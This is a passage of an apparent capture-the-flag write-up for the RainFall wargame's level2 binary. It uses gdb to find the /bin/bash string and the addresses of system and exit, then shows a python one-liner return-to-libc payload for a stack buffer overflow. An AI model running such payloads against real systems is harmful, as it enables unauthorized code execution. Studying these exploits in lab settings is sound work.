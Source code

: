 ## Find SHELL env var

```sh
(gdb) x/s *((char **)environ)
0xbffff915:      "SHELL=/bin/bash"
(gdb) x/s *((char **)environ) + 6
0xbffff91b:      "/bin/bash"
```

We saw our offset to the return address was 80 so EBP is 80 - 4 (the size of EBP) = 76

## Return to libc

We will use the [return-to-libc method](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf) so we are going to set the address of system in EBP, and his parameter after the return address area (the dedcated space for parameters)

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

```sh
level2@RainFall:~$ python -c "print('H' * 80 + '\x60\xb0\xe6\xb7' + 'A' * 4 + '\x1b\xf9\xff\xbf')" | ./level2
(0xb7e6b060)
```

```sh
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```